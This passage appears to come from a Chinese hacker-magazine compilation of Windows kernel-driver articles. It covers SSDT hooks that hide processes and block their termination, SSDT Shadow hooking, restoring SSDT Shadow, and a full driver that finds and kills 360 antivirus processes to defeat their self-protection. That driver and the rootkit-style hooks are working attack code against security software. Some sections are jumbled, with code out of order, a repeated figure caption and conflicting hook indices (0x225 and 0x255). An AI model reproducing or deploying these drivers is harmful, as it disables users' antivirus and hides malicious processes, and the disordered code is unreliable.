((PServiceDescriptorTableEntry)KeServiceDescriptorTable)->ServiceTableBase[*((PULONG)((PUCHAR)ZwQuerySystemInformation + 1))] = RealZwQuerySystemInformation;
```

然后重复执行第7步启用内存写保护操作。

上面的实现步骤比较多，大家可以再看完整源代码。了解了如何 Hook ZwQuerySystemInformation 隐藏进程后，我们再来继续 Hook ZwOpenProcess 以阻止进程结束。ZwOpenProcess 在处理关键 Hook 过程时很简单，仅需要处理 PID，如果等于需要保护的进程ID则直接返回 STATUS_ACCESS_DENIED 禁止访问即可，同时进程句柄返回 INVALID_HANDLE_VALUE 无效句柄。对应上面讲到的第8步处理核心的 Hook 问题，实现代码如下。

```c
NTSTATUS HookZwOpenProcess(
    OUT PHANDLE ProcessHandle,
    IN ACCESS_MASK DesiredAccess,
    IN POBJECT_ATTRIBUTES ObjectAttributes,
    IN PCLIENT_ID ClientId)
{
    ...
}
```

#### 编程解析

```c
NTSTATUS rc;
ULONG dwPID;

rc = (NTSTATUS)(REALZWOPENPROCESS)
RealZwOpenProcess(ProcessHandle, DesiredAccess, ObjectAttributes, ClientId);

if (ClientId != NULL)
{
    dwPID = (ULONG)ClientId->UniqueProcess;
    if (dwPID == 1024) // 阻止PID为1024的进程被结束
    {
        DbgPrint("PID 1024 has been accessed, need forbidden");
        ProcessHandle = INVALID_HANDLE_VALUE; // 返回无效句柄
        rc = STATUS_ACCESS_DENIED;            // 返回禁止访问
    }
}
return rc;
}
```

0xB518F1B0，如图1所示。

图1

Hook ZwOpenProcess 的完整工程源代码我已随文提供，使用 Windows 2000 DDK 编译工程，最终生成的驱动可以稳定运行在 Windows 2000/XP/2003/Vista/2008 系统上，但 Vista 以后系统驱动加载需要禁用 UAC，测试时请注意。最后看一下我们的测试效果，通过 Ring3 传入驱动的 PID 为 548，则结束该进程时提示“无法完成操作，拒绝访问”，如图2所示。

除此之外，就是重新定义 ZwOpenProcess 函数原型，对应修改上文的第2、第3步。

```c
typedef NTSTATUS (*REALZWOPENPROCESS)
(
    OUT PHANDLE ProcessHandle,
    IN ACCESS_MASK AccessMask,
    IN POBJECT_ATTRIBUTES ObjectAttributes,
    IN PCLIENT_ID ClientId
);

REALZWOPENPROCESS RealZwOpenProcess;
RealZwOpenProcess = (REALZWOPENPROCESS)
(((PServiceDescriptorTableEntry)
KeServiceDescriptorTable)->ServiceTableBase[*((PULONG)
((PUCHAR)ZwOpenProcess + 1))]);
```

执行 Hook 地址替换为第6步，其修改如下：

```c
((PServiceDescriptorTableEntry)
KeServiceDescriptorTable)->ServiceTableBase[*((PULONG)
((PUCHAR)ZwOpenProcess + 1))] = HookZwOpenProcess;
```

图2

最后的清理工作重复第9步还原 Hook。在 Unload 中处理步骤替换为：

```c
((PServiceDescriptorTableEntry)KeServiceDescriptorTable)->ServiceTableBase[*((PULONG)((PUCHAR)ZwOpenProcess + 1))] = RealZwOpenProcess;
```

就可以了。

通过加载我们的驱动，可以在 IceSword 的 SSDT 中看到 Ring0.sys 驱动已经成功地 Hook 了 NtOpenProcess，内核地址由 0x8093B756 变为了 0xB518F1B0，如图1所示。

最后还要说的是，Hook SSDT 还有很多不足之处，比如说通过还原 SSDT 或取得了真实的 Native API 地址后，执行 ZwOpenProcess 就不是那么管用了。SSDT 还是很上层的东西，不过作为实用简单的方法，对于防止目前大多数 Ring3 下的病毒结束进程还是很管用的。

## Ring0
### 突破360自我保护

前置知识：VC  
关键词：编程、自我保护、驱动

文 / lJh(cqupt) & LoveDy


看了2008年第7期的《AU3干掉360实时保护》一文，很佩服作者的思路，但美中不足的是没有考虑到360的自我保护，可能是作者写文章的时候，360还没有增加自我保护这个功能。

对于开了自我保护的360来说，无论是通过任务管理器还是 taskkill、ntsd 命令都无法结束其进程。360自我保护刚出来的时候还是大肆宣传了一番的，说是完全可以媲美KV2008，因此我想开了这个功能的人应该不少吧。OK，废话不多说，现在我们就来想办法，彻底突破360的自我保护。

看到进程保护，首先想到的就是 Hook。记得 FlowerCode 曾经说过，360安全卫士的自我保护方法是在 KiSystemService Hook 中过滤了一些函数，比如 ZwOpenProcess，用于阻止用户态程序结束其进程。对于使用驱动的进程管理类程序，则是过滤了 ZwDeviceIoControlFile 函数的参数，若发现受到保护的 PID/EPROCESS 则进行干扰。因为这类程序通常都是使用明文传递 DeviceIoControlCode 给驱动，被360一干扰，自然就不能结束进程了。知道了原理，下面就好办了。

第一种是采用密文的方式来传递 DeviceIoControlCode，简单一点采用异或加密就可以。但这种需要 Ring3 下得到 PID 传给 Ring0，我更喜欢 Do All Things In Ring0，所以采用第二种方法，标准的 PsLookupProcessByProcessId -> KeStackAttachProcess -> ZwTerminateProcess -> KeUnstackDetachProcess，所有的流程都在驱动中完成，不使用 DeviceIoControlCode。

在开始之前，我们先看一下 Windows XP SP2 环境下 EPROCESS 的定义片断和其他的一些数据结构的定义。

```c
dt _EPROCESS
 +0x000 Pcb : _KPROCESS
 +0x078 ExitTime : _LARGE_INTEGER
 +0x174 ImageFileName : [16] UChar
 +0x1f4 SeAuditProcessCreationInfo : _SE_AUDIT_PROCESS_CREATION_INFO

dt _SE_AUDIT_PROCESS_CREATION_INFO
 +0x000 ImageFileName : Ptr32 _OBJECT_NAME_INFORMATION

dt _OBJECT_NAME_INFORMATION
 +0x000 Name : _UNICODE_STRING
```

以下是我的实现代码，已做了详细的注释。

```c
#include <ntifs.h>
NTSTATUS status;
PEPROCESS eprocess = NULL;
UNICODE_STRING path;
WCHAR path_buffer[256];
WCHAR buffer[256];
int index;
unsigned char* p;
unsigned char* pExitTime;
KAPC_STATE apcstate;

// 中间要使用的API
NTKERNELAPI
NTSTATUS
PsLookupProcessByProcessId(
    IN ULONG ProcessId,
    OUT PEPROCESS *Process
);

NTKERNELAPI
VOID
KeStackAttachProcess(
    IN PRKPROCESS Process,
    OUT PRKAPC_STATE ApcState
);

NTKERNELAPI
VOID
KeUnstackDetachProcess(IN PRKAPC_STATE ApcState);

NTSTATUS
NTAPI
ZwTerminateProcess(
    IN HANDLE ProcessHandle OPTIONAL,
    IN NTSTATUS ExitStatus
);

void DriverUnload(PDRIVER_OBJECT DriverObject)
{
    DbgPrint("Drv unLoading\n");
    return;
}

NTSTATUS DriverEntry(PDRIVER_OBJECT DriverObject, PUNICODE_STRING RegistryPath)
{
    DbgPrint("Drv Loading!\n");
    DriverObject->DriverUnload = DriverUnload;
    RtlInitEmptyUnicodeString(&path, path_buffer, sizeof(path_buffer));

    // 初始化字符串
    for (index = 12; index < 65535; index += 4)
    // 从12开始使用PsLookupProcessByProcessId获得EPROCESS...
    {
        status = PsLookupProcessByProcessId(index, &eprocess);
        if (NT_SUCCESS(status)) // PID有效
        {
            pExitTime = (unsigned char*)eprocess;
            pExitTime = pExitTime + 0x78; // 进程的ExitTime
            if (*pExitTime == 0) // ExitTime等于0表示该进程正在运行
            {
                p = (unsigned char*)eprocess;
                p = p + 0x1f4;
                // SeAuditProcessCreationInfo...
                __asm
                {
                    push eax
                    mov eax, DWORD PTR [p]
                    // OBJECT_NAME_INFORMATION
                    mov eax, DWORD PTR [eax] // UNICODE_STRING
                    mov p, eax
                    pop eax
                }
            }
        }
    }

    RtlCopyUnicodeString(&path, (PUNICODE_STRING)p);
    // 这句其实可以去掉，写上只是为了好调试
    RtlCopyMemory(buffer, (unsigned char*)(p + 8), path.MaximumLength);
    // 将文件路径拷贝出来

    if (wcsstr(buffer, L"360Safe.exe") ||
        wcsstr(buffer, L"safeboxTray.exe") ||
        wcsstr(buffer, L"360tray.exe") ||
        wcsstr(buffer, L"360safebox.exe"))
    // 判断是否为360的进程，是则杀之
    {
        DbgPrint("Find 360!");
        DbgPrint("EPROCESS is:%08x\n", eprocess);
        DbgPrint("%ws\n", buffer);
        // 打印路径
        KeStackAttachProcess((PRKPROCESS)eprocess, &apcstate);
        // 切换进程空间
        status = ZwTerminateProcess(0, 0);
        // 结束进程
        if (NT_SUCCESS(status))
        {
            DbgPrint("ZwTerminateProcess OK!");
            KeUnstackDetachProcess(&apcstate);
            DbgPrint("Fuck 360!");
        }
        else
        {
        }
    }
    else
    {
        // DbgPrint("Exited Process!\n");
    }

    return STATUS_SUCCESS;
}
```

这段代码是我在2008年5月份的时候写的，可以结束掉2.0版的360保险箱。因为360保险箱只支持 Windows XP SP2 系统，所以驱动中用到的 EPROCESS 之类的数据结构我都是采用硬编码实现的。但在写本文的时候发现360保险箱推出了2.2 beta版，用我原来的这个驱动已经无法结束了，于是赶紧 WinDbg 了一阵，发现原来过滤了 ZwTerminateProcess，改了一个代码，不再是 KeStackAttachProcess -> ZwTerminateProcess，而是直接调用 PspTerminateProcess 来结束。实现代码就不贴出了，大家可以看随文提供的源代码。如果有什么问题，欢迎大家到黑防论坛里与我讨论。

### 探秘系统内核表
#### SSDT Shadow

前置知识：VC  
关键词：编程、SSDT Shadow、Ring0

文/图 夜枫[xfill]

Windows 采用了分层的设计思想，整体上分成两个大层：用户模式和内核模式。一般的程序运行在用户模式，而设备驱动等运行在内核模式。内核模式运行在 Ring0 权限，可以操作 I/O 端口等硬件操作；而用户模式则运行在 Ring3 权限，不能操作硬件（需要注意的是，内核模式是操作系统的概念，Ring0是CPU的概念）。用户模式必须和内核模式之间能沟通，其中一个沟通方法之一就是用系统服务描述表，也就是 SSDT。比如当用户模式调用 OpenProcess 时，这个函数定位在 Kernel32.dll 上，然后这个函数最终被转到 ZwOpenProcess，这个函数导出在 ntdll.dll 上；而 ntdll 在 Windows 2000 中使用 int 0x2E 中断进入内核，而 Windows XP 等以上版本使用 sysenter 进入内核。调用中断后通过 KeServiceDescriptorTable 表定位函数在内核的位置，从而调用。

不过本文要说的不是大家熟知的 SSDT hook，这次我们要做一个挑战，挑战 SSDT Shadow。SSDT Shadow（后面简称 SSDT SD）也是一个内核的表，里面包含了 ntoskrnl 导出的 KeServiceDescriptorTable 的地址，也有 Win32k.sys 导出的 GDI 函数表地址。

SSDT SD 相对来说知道的人比较少，很重要一个原因就是因为 SSDT SD 没有被导出，所以无法直接定位，而不同的系统其位置也不一样。在 Windows 2000 中，SSDT SD 位于 SSDT 下面；但在 Windows XP 中，SSDT SD 则位于 SSDT 上面。我们用 WinDbg 可以查看到。我们先来看看 SSDT 的位置，以 Windows XP 为例进行说明。

```c
kd> dd KeServiceDescriptorTable
8055c6e0  80504734 00000000 0000011c 80504ba8
8055c6f0  00000000 00000000 00000000 00000000
8055c700  00000000 00000000 00000000 00000000
8055c710  00000000 00000000 00000000 00000000
8055c720  00000002 00002710 bf80da45 00000000
8055c730  f9e81a80 81670168 8164aa90 806f5040
8055c740  00000000 00000000 00000000 00000000
8055c750  9f3aa3c0 01c8fdfe 00000000 00000000
```

可以看到 SSDT 表的位置是 0x8055c6e0。刚才说到 SSDT SD 位于 SSDT 上面，该地址减去4个 SSDT 长度，也就是减去 0x40 再看。

```c
kd> dd KeServiceDescriptorTable-0x40
8055c6a0  80504734 00000000 0000011c 80504ba8
8055c6b0  bf997600 00000000 0000029b bf998310
8055c6c0  00000000 00000000 00000000 00000000
8055c6d0  00000000 00000000 00000000 00000000
8055c6e0  80504734 00000000 0000011c 80504ba8
8055c6f0  00000000 00000000 00000000 00000000
8055c700  00000000 00000000 00000000 00000000
8055c710  00000000 00000000 00000000 00000000
```

注意 8055c6a0 这个地址，也有个 SSDT，对比可以发现，第一项跟 SSDT 是完全一样的。根据《Undocument Windows 2000 Secret》一书里的介绍，这里的结构如下：

```c
typedef struct _SYSTEM_SERVICE_TABLE_SHADOW
{
    SYSTEM_SERVICE_TABLE ntoskrnl;
    // Native API
    SYSTEM_SERVICE_TABLE win32k;
    // win32k.sys(GDI/USER support)
    SYSTEM_SERVICE_TABLE Table3;
    // not used
    SYSTEM_SERVICE_TABLE Table4;
    // not used
}
SYSTEM_SERVICE_TABLE_SHADOW,
*PSYSTEM_SERVICE_TABLE_SHADOW;
```

这就是我们需要的 KeServiceDescriptorTableShadow。根据上面的数据结构可以看出它是由4个 SYSTEM_SERVICE_TABLE 组成的，我们看一下这个结构。

```c
typedef struct _SYSTEM_SERVICE_TABLE
{
    unsigned int *ServiceTableBase;
    // array of entry points
    unsigned int *ServiceCounterTableBase;
    // array of usage counters
    unsigned int NumberOfServices;
    // number of table entries
    unsigned char *ParamTableBase;
    // array of byte counts
}
SYSTEM_SERVICE_TABLE, *PSYSTEM_SERVICE_TABLE;
```

由此可以看出来，第一个 SYSTEM_SERVICE_TABLE 就是 ntoskrnl 导出的 SSDT 表，而第二个是 win32k.sys 导出的一个表。但是这个表是在进程空间里，所以如果直接用 dd 查看会出现无效内存的问题，所以我们先要切换到进程的内存空间。

这里为了方便大家阅读，都采用了硬编码，所以移植的时候肯定无法运行。不过本文重在原理，具体编译时大家改一下就 OK 了。

刚才说到了 SSDT SD 的定位，我的系统是 Windows XP，所以直接通过 SSDT 减去 0x40 来定位 SSDT SD。

```c
__declspec(dllimport) SYSTEM_SERVICE_TABLE KeServiceDescriptorTable;
```

通过 ntoskrnl 导出的表，可以得到 SSDT 位置，然后我们减 0x40，得到 SSDT SD 的地址。

```c
KeServiceDescriptorTableShadow = (LPBYTE)&KeServiceDescriptorTable - 0x40;
```

虽然我们得到了地址，但是这个地址是进程空间的地址，所以先要转到进程空间。通过 KeStackAttachProcess 可以转到内存空间，这个函数有两个参数，第一个参数就是一个 EPROCESS 指针。对于学内核的朋友来说，这个结构相当熟悉了；同样的，这个结构每个系统版本也不一样，但是我们这里不需要知道其结构，只需要获得到指定进程的 EPROCESS 就可以了。我们需要获得的进程名是 csrss.exe，本次启动的 PID 是 604，当然实际开发的时候可以在用户模式下获得到进程列表，通过名字找到这个进程的 PID，或者在内核下用 ZwQuerySystemInformation 来枚举进程从而获得 PID。之后转到进程空间，再用挂钩 SSDT 的方法来修改 win32k 的这个表。不过这里又有个困难，每个系统的函数索引都不一样，而这又不能通过 Zw 函数的头几个字节来获得到表的索引，所以这里又采用了硬编码，挂钩 NtUserSetWindowsHookEx 函数，从名字上大家也能看出这个函数是干什么的了。我们来看一下其代码。

```c
// 挂钩
NTSTATUS HookSSDTShadow()
{
    PEPROCESS crsProcess = NULL;
    NTSTATUS ntStatus = STATUS_SUCCESS;
    PKAPC_STATE ApcState = NULL;
    KdPrint(("挂钩表\n"));
    ntStatus = PsLookupProcessByProcessId((HANDLE)PID, &crsProcess);
    if (!NT_SUCCESS(ntStatus))
    {
        KdPrint(("获得进程失败\n"));
        return ntStatus;
    }

    ApcState = (PKAPC_STATE)ExAllocatePool(NonPagedPool, sizeof(KAPC_STATE));
    KeStackAttachProcess(crsProcess, ApcState);

    m_MDL = MmCreateMdl(
        NULL,
        KeServiceDescriptorTableShadow[1].ServiceTableBase,
        KeServiceDescriptorTableShadow[1].NumberOfServices * 4);
    if (!m_MDL)
    {
        // ...
    }
}
```

### Ring0 下恢复 SSDT Shadow

前置知识：VC  
关键词：编程，Ring0，SSDT Shadow


文/图 小伟的小伟[0GiNr]

与很多读者都知道的 SSDT 类似，系统中还存在着名为“SSDT Shadow”的另外一张系统服务表。SSDT Shadow 里面保存的指针指向的函数与 GDI 有关。用户态中的 GDI32.dll 和 User32.dll 中的函数通过中断进入内核态，分发器（KiFastCallEntry/KiSystemService）根据服务 ID 调用相关的内核态函数，这些函数位于 Win32k.sys。许多 Anti-Virus、Anti-Rootkit、网游等软件的附属驱动也通过修改 SSDT Shadow 进行自我保护。例如某些网游挂接了按键相关的函数（NtUserSendInput 等）来防止模拟按键，Anti-Virus 通过挂接某些窗口相关的函数（NtUserPostMessage 等）来防止被关闭，因此有的时候搞掉 SSDT Shadow 的钩子可以为我们的研究清理路障。

下面我们就来谈谈 SSDT Shadow 的恢复，这是我的一点学习历程，在此奉献给大家。由于技术水平有限，如有纰漏，还请各位读者不吝赐教。

```c
return STATUS_UNSUCCESSFUL;

// 非分页内存
MmBuildMdlForNonPagedPool(m_MDL);
m_MDL->MdlFlags = m_MDL->MdlFlags | MDL_MAPPED_TO_SYSTEM_VA;

// 锁定
m_Mapped = MmMapLockedPages(m_MDL, KernelMode);
KdPrint(("函数原地址 0x%X, 新地址 0x%X\n", m_Mapped[0x225], HookOfNtUserSetWindowsHookEx));
HOOK_SYSCALL(0x225, HookOfNtUserSetWindowsHookEx, OrigNtUserSetWindowsHookEx);
KeUnstackDetachProcess(ApcState);
ExFreePool(ApcState);
return ntStatus;
}
```

```c
(HINSTANCE Mod, PUNICODE_STRING UnsafeModuleName, DWORD ThreadId, int HookId, PVOID HookProc, BOOL Ansi)
{
    KdPrint(("NtUserSetWindowsHookEx is called\n"));
    return OrigNtUserSetWindowsHookEx(Mod, UnsafeModuleName, ThreadId, HookId, HookProc, Ansi);
}
```

在 Windows XP 下，这个函数的索引是 0x255，恢复的时候，代码也基本一致。

我在虚拟机单步测试时发现，Unsafe 用户模块 Module Name 就是调用钩子的模块，所以我们可以在这里判断调用的进程的位置，再和用户模式通信，就可以实现类似卡巴斯基的主动防御功能。

在虚拟机下运行用 DebugView，可以得到如下的输出调试信息：

```text
00000000  0.00000000
调试驱动：进入 DriverEntry
00000001  17.83148193
表的地址是 0x8055c6a0
00000002  48.01175308  挂钩表
00000003  1703.71862793
函数原地址 0xBF880DD6, 新地址 0xF9D58250

00000004  1703.73364258
调试驱动：离开 DriverEntry
00000005  1711.60705566
NtUserSetWindowsHookEx is called
00000006  1711.62255859
NtUserSetWindowsHookEx is called
00000007  1711.64538574
NtUserSetWindowsHookEx is called
00000008  1711.65698242
NtUserSetWindowsHookEx is called

00000009  1717.67944336
调试驱动：进入 OnUnload
00000010  1717.68908691  挂钩表
00000011  1717.69970703
调试驱动：离开 OnUnload
```

```c
// 恢复
NTSTATUS UnHookSSDTShadow()
{
    PEPROCESS crsProcess = NULL;
    NTSTATUS ntStatus = STATUS_SUCCESS;
    PKAPC_STATE ApcState = NULL;
    KdPrint(("挂钩表\n"));
    ntStatus = PsLookupProcessByProcessId((HANDLE)PID, &crsProcess);
    if (!NT_SUCCESS(ntStatus))
    {
        KdPrint(("获得进程失败\n"));
        return ntStatus;
    }

    ApcState = (PKAPC_STATE)ExAllocatePool(NonPagedPool, sizeof(KAPC_STATE));
    KeStackAttachProcess(crsProcess, ApcState);
    UNHOOK_SYSCALL(0x225, _Orig, OrigNtUserSetWindowsHookEx);
    KeUnstackDetachProcess(ApcState);
    if (m_MDL)
    {
        MmUnmapLockedPages(m_Mapped, m_MDL);
        IoFreeMdl(m_MDL);
    }
    ExFreePool(ApcState);
    return ntStatus;
}

// 函数
HHOOK HookOfNtUserSetWindowsHookEx
```

挂钩这个函数确实方便，因为其他函数很多都是 GDI 函数，试验起来不方便。另外值得一提的是，虽然这个表没有什么比较有用的函数，但是 SSDT Shadow 的检测工具非常少，IceSword 等比较出名的检测工具都没有这个功能，大家调试的时候推荐使用 Rootkit Unhooker 这款工具，它可以比较方便地检测到。

## 定位 KeServiceDescriptorTableShadow 彻底

和从 Ring0 恢复 SSDT 类似，恢复 Shadow 的步骤如下：

- 1) 获取服务表的地址；
- 2) 获取服务表所在模块的基址；
- 3) 计算出服务表在文件中的偏移；
- 4) 根据偏移读取文件中的原始信息，得到原始函数地址；
- 5) 将原始地址写入服务表。

SSDT 的恢复相比而言比较简单，因为 SSDT 被内核导出了，所以用导出变量即可完成第一步，然后获取 ntoskrnl.exe 的基址，就可以计算出表在文件中的偏移，接下来的事情就是读取文件中的原始地址，与当前表中的地址进行判断。但是，SSDT Shadow 服务表（KeServiceDescriptorTableShadow）却并没有被内核导出，所以我们需要自己定位。定位方法有很多种，这里介绍一种通过搜索 KeAddSystemServiceTable（已导出）函数的内存空间得到 Shadow 表地址的方法。

KeAddSystemServiceTable 的反汇编代码如下：

```text
lkd> u KeAddSystemServiceTable L 10
nt!KeAddSystemServiceTable:
805ba589 8bff          mov edi,edi
805ba58b 55            push ebp
805ba58c 8bec          mov ebp,esp
805ba58e 837d1803      cmp dword ptr [ebp+18h],3
805ba592 774e          ja nt!KeAddSystemServiceTable+0x6b (805ba5e2)
805ba594 8b4518        mov eax,dword ptr [ebp+18h]
805ba597 c1e004        shl eax,4
805ba59a 83b880a6558000 cmp dword ptr nt!KeServiceDescriptorTable (8055a680)[eax],0
805ba5a1 753f          jne nt!KeAddSystemServiceTable+0x6b (805ba5e2)
805ba5a3 8d8840a65580  lea ecx,nt!KeServiceDescriptorTableShadow (8055a640)[eax]
805ba5a9 833900        cmp dword ptr [ecx],0
805ba5ac 7534          jne nt!KeAddSystemServiceTable+0x6b (805ba5e2)
805ba5ae 837d1801      cmp dword ptr [ebp+18h],1
805ba5b2 8b5508        mov edx,dword ptr [ebp+8]
805ba5b5 56            push esi
805ba5b6 8b7510        mov esi,dword ptr [ebp+10h]
```

显然，在 `KeAddSystemServiceTable` 中搜索特征码 `0x888D`（`lea ecx, xxx`）即可得到 `KeServiceDescriptorTableShadow` 的地址。搜索代码如下：

```c
UCHAR *cPtr;
UCHAR *pOpcode;
ULONG Length;

for (cPtr = (PUCHAR)KeAddSystemServiceTable;
     cPtr < (PUCHAR)KeAddSystemServiceTable + PAGE_SIZE;
     cPtr += Length) {
    Length = SizeOfCode(cPtr, &pOpcode);
    if (!Length) break;
    if (*(PUSHORT)cPtr == 0x888D) {
        KeServiceDescriptorTableShadow =
            (PKSERVICE_TABLE_DESCRIPTOR)(*(ULONG *)((ULONG)pOpcode + 2));
        break;
    }
}
```

##### 获取 win32k.sys 加载基址

因为 `KeServiceDescriptorTableShadow` 是位于 `win32k.sys` 中的，所以下来的任务就是获取 `win32k.sys` 的加载基址。获取方法很多，例如使用 `NtQuerySystemInformation` 枚举内核模块，或使用 `ZwQuerySystemInformation`。作者随后给出一个更简单可靠的方法。

在《Rootkits: Subverting the Windows Kernel》中曾介绍一种断链隐藏驱动的方法。在 `DRIVER_OBJECT` 结构的 `0x014` 偏移处是一个 `DriverSection` 结构。

```text
lkd> dt _DRIVER_OBJECT
nt!_DRIVER_OBJECT
+0x000 Type : Int2B
+0x002 Size : Int2B
+0x004 DeviceObject : Ptr32 _DEVICE_OBJECT
+0x008 Flags : Uint4B
+0x00c DriverStart : Ptr32 Void
+0x010 DriverSize : Uint4B
+0x014 DriverSection : Ptr32 Void
```

而 `DriverSection` 其实就是一个 `_LDR_DATA_TABLE_ENTRY` 结构的指针，部分成员如下：

```text
lkd> dt _LDR_DATA_TABLE_ENTRY
nt!_LDR_DATA_TABLE_ENTRY
+0x000 InLoadOrderLinks : _LIST_ENTRY
+0x008 InMemoryOrderLinks : _LIST_ENTRY
+0x010 InInitializationOrderLinks : _LIST_ENTRY
+0x018 DllBase : Ptr32 Void
+0x01c EntryPoint : Ptr32 Void
+0x020 SizeOfImage : Uint4B
+0x024 FullDllName : _UNICODE_STRING
+0x02c BaseDllName : _UNICODE_STRING
+0x034 Flags : Uint4B
```

该结构中的 3 个双向链表（`InLoadOrderLinks`、`InMemoryOrderLinks`、`InInitializationOrderLinks`）连接所有已加载模块；`DllBase` 是模块基址，`SizeOfImage` 是模块大小，`FullDllName` 是完整模块名。通过遍历这些链表即可得到模块信息。

因此可通过遍历 `DRIVER_OBJECT` 中 `DriverSection` 指向的 `_LDR_DATA_TABLE_ENTRY` 链表来获取加载模块信息。用于遍历的 `DRIVER_OBJECT` 可使用 `DriverEntry` 的第一个参数 `pDriverObj`。

```c
PLIST_ENTRY pList = NULL;
PLDR_DATA_TABLE_ENTRY Ldr = NULL;

pList = ((PLIST_ENTRY)pDriverObj->DriverSection)->Flink;
do {
    Ldr = CONTAINING_RECORD(pList, LDR_DATA_TABLE_ENTRY, InLoadOrderLinks);
    if (Ldr->EntryPoint &&
        Ldr->FullDllName.Buffer) {
        if (!_wcsicmp(Ldr->FullDllName.Buffer,
            L"\\systemroot\\system32\\win32k.sys")) {
            // 比较模块名字，应该比较 FullDllName，单单比较
            // BaseDllName 很可能会遇到同名文件
            pWin32kBase = Ldr->DllBase; // 保存模块基址
            break;
        }
    }
    pList = pList->Flink; // 下一个链表
} while (pList != ((LIST_ENTRY*)pDriverObj->DriverSection)->Flink);
```

#### 服务表简单分析

在恢复 SSDT Shadow 之前，我们先来复习一下服务表的一些基本知识。系统服务表的结构定义如下：

```c
typedef struct _KSERVICE_TABLE_DESCRIPTOR {
    PULONG_PTR Base;
    PULONG Count;
    ULONG Limit;
    PUCHAR Number;
} KSERVICE_TABLE_DESCRIPTOR,
 *PKSERVICE_TABLE_DESCRIPTOR;
```

其中第一个成员 Base 即函数指针表的基址，第三个成员是函数的个数。在此我们仅仅关心这两个成员（2、4 分别是系统服务调用次数（仅在 Checked 版本中使用）、参数长度，由于与本文无关，不作深入讨论）。

我们可以使用 kd 查看系统服务描述表中的内容（KeServiceDescriptorTable(Shadow) 其实是 KSERVICE_TABLE_DESCRIPTOR 结构的数组，也就是说 KeServiceDescriptorTable(Shadow) 实际上是一组系统服务描述表——在 Windows XP SP2 下，组中的成员数 = 4）：

```text
lkd> dd KeServiceDescriptorTable
8055a680  804e36a8 00000000 0000011c 80513eb8
8055a690  00000000 00000000 00000000 00000000
lkd> dd KeServiceDescriptorTableShadow
8055a640  804e36a8 00000000 0000011c 80513eb8
8055a650  bf999b80 00000000 0000029b bf99a890
8055a660  00000000 00000000 00000000 00000000
8055a670  00000000 00000000 00000000 00000000
8055a680  804e36a8 00000000 0000011c 80513eb8
8055a690  00000000 00000000 00000000 00000000
lkd> dd bf999b80
bf999b80  bf935fce bf947b65 bf88cbdb bf93f740
bf999b90  bf94917c bf936262 bf936307 bf83b6b5
......
```

每一行（4 字节 * 4 项 = 16 字节）就是一个 KSERVICE_TABLE_DESCRIPTOR 结构。由于有些表（在我测试的系统上，第 3、4 张表未使用，KeServiceDescriptorTable 中不存储第二张表）未被系统使用，所以是空的。观察数据可以发现，KeServiceDescriptorTable 和 KeServiceDescriptorTableShadow 中的第一张表的 Base 是同一个地址（所以 SSDT Hook 不需要对 GUI 线程区别对待，GUI 线程指的是使用 SSDT Shadow 表的线程），该地址也就是 SSDT 的基址（输入 `dd 804e36a8` 就可以得到当前的 SSDT 函数表）。KeServiceDescriptorTableShadow 中的第二张表的 Base 即指向 SSDT Shadow 表基址（输入 `dd bf999b80` 可以得到当前的 SSDT Shadow 函数表，我们可以使用 `ln` 命令解析函数名）。

#### 获取 Shadow 的文件偏移

获取文件偏移相对简单些，只要用当前的 KeServiceDescriptorTableShadow 表地址减去 Win32k.sys 的加载基址即可得到文件偏移，然后通过这个偏移就可以访问到文件中原始表的数据。代码如下：

```c
ulShadowBase = *(ULONG*)&KeServiceDescriptorTableShadow[1].Base; // 得到基址
ulShadowRaw  = ulShadowBase - (ULONG)pWin32kBase;                // 得到 Shadow 表在原始文件中的偏移
```

#### 获取 SSDT Shadow 原始地址

好了，开始最后一步，从 win32k.sys 中读取原始地址，然后和当前表中的地址进行比较即可。需要说明的一点是，KeServiceDescriptorTableShadow 并不是常驻在内存中的（KeServiceDescriptorTableShadow 处于 PagedPool），也就是说它有可能被换出到页面文件中。对 KeServiceDescriptorTableShadow 的操作应该也在有 GDI 的线程中，否则就会因存取无效地址而蓝屏。在附带的示例驱动中，我把操作放在了 IRP_MJ_CREATE 对应的派遣例程中，因为我加载驱动使用带 GDI 的程序，而 IRP_MJ_CREATE 的……派遣例程正好在本进程的上下文中，所以满足条件。当然，更好更稳定的方法是获取 csrss.exe 的 EPROCESS，然后使用 KeAttachProcess 等 Attach 到 csrss.exe 中完成操作。

所有重点部分都在上面说完了，相信读者的头脑中已经有思路，这里放出源码供大家参考，在重点部分我都做了注释，完整源码请参考工程文件。

```c
NTSTATUS status;
HANDLE hFile; // win32k.sys 文件句柄
OBJECT_ATTRIBUTES ObjAttr;
UNICODE_STRING ustrWin32k;
IO_STATUS_BLOCK ioStatus;
ULONG ulShadowRaw = 0;
ULONG ulShadowBase = 0;
PVOID PoolArea = NULL;
FILE_POSITION_INFORMATION fpi;
LARGE_INTEGER Offset;
ULONG OrigAddress = 0;
ULONG CurAddress = 0;
ULONG i = 0;
ULONG ulCount = 0;
PULONG pAddr;

if (pWin32kBase == NULL ||
    KeServiceDescriptorTableShadow == NULL)
{
    dprintf("Error.");
    return STATUS_UNSUCCESSFUL;
}

ulCount = KeServiceDescriptorTableShadow[1].Limit;
// Limit 就是表中函数的个数

dprintf("Count Of Shadow : 0x%X\n", ulCount);

ulShadowBase = *(ULONG*)&KeServiceDescriptorTableShadow[1].Base; // 得到基址
ulShadowRaw = ulShadowBase - (ULONG)pWin32kBase; // 得到 Shadow 表在原始文件中的偏移

RtlInitUnicodeString(&ustrWin32k,
    L"\\SystemRoot\\System32\\win32k.sys");

PoolArea = ExAllocatePool(PagedPool, sizeof(ULONG) * ulCount);
// 分配空间，用于保存读取到的数据；因为每个地址长度是 sizeof(ULONG)

if (!PoolArea) {
    dprintf("PoolArea is null\n");
    return STATUS_UNSUCCESSFUL;
}

RtlZeroMemory(&ObjAttr, sizeof(ObjAttr));
InitializeObjectAttributes(
    &ObjAttr,
    &ustrWin32k,
    OBJ_KERNEL_HANDLE | OBJ_CASE_INSENSITIVE,
    NULL,
    NULL);
```

```c
// 打开文件
status = IoCreateFile(
    &hFile,
    FILE_READ_ATTRIBUTES,
    &ObjAttr,
    &ioStatus,
    0,
    FILE_ATTRIBUTE_NORMAL,
    FILE_SHARE_READ,
    FILE_OPEN,
    0,
    NULL,
    0,
    0,
    NULL,
    IO_NO_PARAMETER_CHECKING);

if (!NT_SUCCESS(status)) {
    dprintf("IoCreateFile Error : 0x%X", status);
    goto __exit;
}

// 设置文件偏移
Offset.LowPart = ulShadowRaw;
Offset.HighPart = 0;

// 开始读取数据
status = ZwReadFile(
    hFile,
    NULL,
    NULL,
    NULL,
    &ioStatus,
    PoolArea,
    ulCount * sizeof(ULONG),
    &Offset,
    NULL);

